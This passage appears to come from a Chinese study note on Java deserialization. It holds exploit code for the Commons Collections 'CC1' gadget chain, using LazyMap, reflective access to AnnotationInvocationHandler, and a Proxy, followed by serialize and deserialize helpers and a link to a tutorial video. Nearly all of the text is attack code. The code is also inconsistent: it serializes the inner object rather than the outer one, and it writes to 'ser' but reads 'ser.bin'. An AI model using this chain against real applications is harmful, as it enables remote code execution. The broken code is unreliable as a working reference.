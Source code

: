 ```java
        Map lazymap = LazyMap.decorate(map, chainedTransformer);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationConstructor.setAccessible(true);
        InvocationHandler o = ((InvocationHandler) annotationInvocationConstructor.newInstance(Target.class, lazymap));

        Map map1 = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, o);
        Object o1 = annotationInvocationConstructor.newInstance(Target.class, map1);
        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```


参考链接:

[bilibili白日梦组长](https://www.bilibili.com/video/BV1no4y1U7E1/?vd_source=953fbf17a8e8d4ac23babb07f8cce168)









